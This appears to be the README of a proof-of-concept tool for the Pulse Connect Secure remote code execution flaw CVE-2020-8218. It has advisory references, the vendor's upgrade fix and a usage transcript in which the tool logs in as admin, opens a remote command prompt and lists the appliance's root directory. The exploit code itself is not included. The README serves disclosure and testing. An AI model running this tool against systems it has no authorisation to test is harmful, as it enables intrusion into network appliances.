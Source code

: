 # pulse-gosecure-rce

```
          _____                    _____                    _____            _____                    _____          
         /\    \                  /\    \                  /\    \          /\    \                  /\    \         
        /::\    \                /::\____\                /::\____\        /::\    \                /::\    \        
       /::::\    \              /:::/    /               /:::/    /       /::::\    \              /::::\    \       
      /::::::\    \            /:::/    /               /:::/    /       /::::::\    \            /::::::\    \      
     /:::/\:::\    \          /:::/    /               /:::/    /       /:::/\:::\    \          /:::/\:::\    \     
    /:::/__\:::\    \        /:::/    /               /:::/    /       /:::/__\:::\    \        /:::/__\:::\    \    
   /::::\   \:::\    \      /:::/    /               /:::/    /        \:::\   \:::\    \      /::::\   \:::\    \   
  /::::::\   \:::\    \    /:::/    /      _____    /:::/    /       ___\:::\   \:::\    \    /::::::\   \:::\    \  
 /:::/\:::\   \:::\____\  /:::/____/      /\    \  /:::/    /       /\   \:::\   \:::\    \  /:::/\:::\   \:::\    \ 
/:::/  \:::\   \:::|    ||:::|    /      /::\____\/:::/____/       /::\   \:::\   \:::\____\/:::/__\:::\   \:::\____\
\::/    \:::\  /:::|____||:::|____\     /:::/    /\:::\    \       \:::\   \:::\   \::/    /\:::\   \:::\   \::/    /
 \/_____/\:::\/:::/    /  \:::\    \   /:::/    /  \:::\    \       \:::\   \:::\   \/____/  \:::\   \:::\   \/____/ 
          \::::::/    /    \:::\    \ /:::/    /    \:::\    \       \:::\   \:::\    \       \:::\   \:::\    \     
           \::::/    /      \:::\    /:::/    /      \:::\    \       \:::\   \:::\____\       \:::\   \:::\____\    
            \::/____/        \:::\__/:::/    /        \:::\    \       \:::\  /:::/    /        \:::\   \::/    /    
             ~~               \::::::::/    /          \:::\    \       \:::\/:::/    /          \:::\   \/____/     
                               \::::::/    /            \:::\    \       \::::::/    /            \:::\    \         
                                \::::/    /              \:::\____\       \::::/    /              \:::\____\        
                                 \::/____/                \::/    /        \::/    /                \::/    /        
                                  ~~                       \/____/          \/____/                  \/____/         
  ```                                                                                                                   

## About
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218) and to encourage further research. This tool was built around the POC from the GoSecure advisory. All credit to them for the finding. 

## Recommended Fix
As recommended by Pulse Secure:
***"The solution for these vulnerabilities is to upgrade the Pulse Connect Secure and Pulse Policy Secure server software version to the 9.1R8. This following PCS/PPS version can be downloaded from https://my.pulsesecure.net."***

## References
* https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44516/?kA23Z000000L6i5SAC
* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

## Usage
```
Example usage:
withdk@hogwarts source % python pulse-gosecure-rce.py -u https://192.168.1.120 --user admin --password mypassword
[*] Successfully logged in
(Cmd) ls /
[*] Sending cmd ls /
[*] Sending exploit...
[*] Getting output...
******************************************
2.6.32.358-x86_64
bin
boot
cgroups
data
dev
etc
home
lib
lib64
modules
opt
pkg
proc
runtime
sbin
sys
tmp
usr
va
var
webserver

******************************************
(Cmd) exit
Bye
[*] Getting logout URL
[*] Sending logout URL
[*] Successfully logged out.
```

DK @withdk  
September 2020

## Disclaimer
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
